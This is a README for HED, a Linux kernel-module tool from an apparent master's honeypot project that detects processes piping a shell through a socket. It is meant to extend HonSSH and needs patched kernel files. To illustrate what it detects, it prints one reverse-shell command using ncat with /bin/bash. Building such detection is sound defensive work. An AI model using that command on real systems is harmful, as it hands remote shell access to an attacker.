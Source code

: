# HED

<p align="center">
	<img alt="Logo" src="./doc/HEDLogo.png" height="220" width="220">
 </p>

HED is a tool developed for detecting when an "engage" is performed. What is an engage? Well... we refer as "engage" to the procedure of multiplexing the input & output of a child process through a socket. For example: if you execute the following command:

	ncat server port -e /bin/bash

An engage to the server:port executing an instance of *BASH* is performed.

HED needs another party, contained inside the directory *Handler*, who receives the information related to the engage (i.e. IP Address & TCP Port) so it captures the traffic of this stream.

This is useful in certain environments. Our motivation is to enhance the functionality of the software *HonSSH*:

	https://github.com/tnich/honssh

All this project is part of a project of a master, implementing a Honeypot; I am opened to questions and suggestions.
It is important to note that it is necessary to modify the Linux kernel before adding the kernel module... This is not very flexible... maybe I will implement a new version "ALL-IN-ONE" in a future.

The modified files are the following:

	sched.h
	fork.c
	exit.c

The base Linux kernel version we have used is 4.1.18; but it can work in a large number of versions.

Fernando Vañó
